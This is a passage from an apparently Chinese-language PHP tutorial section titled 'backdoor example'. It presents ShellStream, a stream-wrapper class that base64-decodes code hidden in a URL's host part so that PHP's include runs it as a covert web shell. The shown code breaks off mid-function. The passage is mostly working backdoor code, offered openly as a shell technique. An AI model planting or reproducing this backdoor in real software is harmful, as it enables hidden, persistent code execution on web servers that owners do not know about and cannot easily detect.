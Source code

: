 ## 0×02 后门示例
 
通过上述程序，我们实现了通过 include 指令直接执行 php ，并插入我们想要的效果，我们现在根据这个原理写一个Shell：
 
### 后门程序
 
```php
@link //dxkite.cn
 */

class ShellStream
{
    protected $position;
    protected $code;

    public function stream_open($path, $mode, $options, &$opened_path)
    {
        $url = parse_url($path);
        $name = $url["host"];
        $this->code = base64_decode($name);
        $this->position = 0;
        return true;
    }

    public function stream_read($count)
    {
        $ret = substr($this->code, $this->position, $count);
        $this->position += strlen($ret);
        return $ret;
    }

    public function stream_tell()
    {
        return $this->position;
    }

    public function stream_eof()
    {
        return $this->position >= strlen($this->code);
    }

    public function stream_seek($offset, $whence)
    {
        switch ($whence) {
            case SEEK_SET:
                if ($offset < strlen($this->code) && $offset >= 0) {
                    $this->position = $offset;
                    return true;
                } else {
                    return false;
                }
                break;

            case SEEK_CUR:
                if ($offset >= 0) {
                    $this->position += $offset;
                    return true;
                } else {
                    return false;
                }
                break;
            case SEEK_END:
                if (strlen($this->code) + $offset >= 0) {
```

[0]: ./img/JjuaI3b.jpg 
[1]: ./img/uMJZB3f.jpg 
[2]: ./img/Yz2QjqB.jpg 
[3]: ./img/vEfyMjj.jpg 